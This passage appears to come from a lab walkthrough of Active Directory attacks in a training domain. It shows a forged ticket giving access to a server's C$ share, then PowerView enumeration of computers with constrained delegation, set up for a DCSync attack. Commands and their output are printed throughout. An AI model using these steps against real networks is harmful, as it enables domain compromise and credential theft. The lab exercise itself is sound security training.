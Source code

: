 - **Leverage the Forged Ticket to Gain Access to that Service**

Try accessing filesystem on `dcorp-mssql`.

`dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$`:
```
 Volume in drive \\dcorp-mssql.dollarcorp.moneycorp.local\c$ has no label.
 Volume Serial Number is 76D3-EB93

 Directory of \\dcorp-mssql.dollarcorp.moneycorp.local\c$📁

05/08/2021  12:15 AM    <DIR>          PerfLogs
11/14/2022  04:44 AM    <DIR>          Program Files
11/14/2022  04:43 AM    <DIR>          Program Files (x86)
12/03/2023  06:36 AM    <DIR>          Transcripts
11/15/2022  01:48 AM    <DIR>          Users
10/25/2024  03:29 AM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)   2,423,300,096 bytes free
```
🚩

2.  **Abuse the constrained delegation configured on a computer account, to forge a TGS using the computer encryption key hash and use it to obtain an alternate TGS for LDAP service on the DC, enabling a DCSync attack**

- **Find a Target Server where Constrained Delegation is Enabled**

Enumerate the computer accounts with constrained delegation enabled using PowerView.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainComputer -TrustedToAuth`:
```
[SNIP]

pwdlastset                    : 11/11/2022 11:16:12 PM
logoncount                    : 96
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=DCORP-ADMINSRV,OU=Applocked,DC=dollarcorp,DC=moneycorp,DC=local
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 2/14/2025 9:03:21 PM
whencreated                   : 11/12/2022 7:16:12 AM
samaccountname                : DCORP-ADMINSRV$👤
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT📌
whenchanged                   : 2/15/2025 5:03:21 AM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2022 Datacenter
instancetype                  : 4
useraccountcontrol            : WORKSTATION_TRUST_ACCOUNT, TRUSTED_TO_AUTH_FOR_DELEGATION📌
objectguid                    : 2e036483-7f45-4416-8a62-893618556370
operatingsystemversion        : 10.0 (20348)
lastlogoff                    : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto      : {TIME/dcorp-dc.dollarcorp.moneycorp.LOCAL, TIME📌/dcorp-DC🖥️}
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata         : {12/5/2024 12:47:28 PM, 11/15/2022 4:16:45 AM, 1/1/1601 12:00:01 AM}
```